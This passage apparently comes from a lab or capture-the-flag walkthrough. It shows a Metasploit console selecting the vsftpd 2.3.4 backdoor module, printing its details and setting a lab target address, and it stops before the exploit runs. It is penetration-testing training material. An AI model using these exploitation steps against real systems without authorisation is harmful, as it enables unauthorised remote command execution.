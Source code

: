 ```
   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.
```
Let's try to exploit it:
```
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOSTS 10.129.151.43
```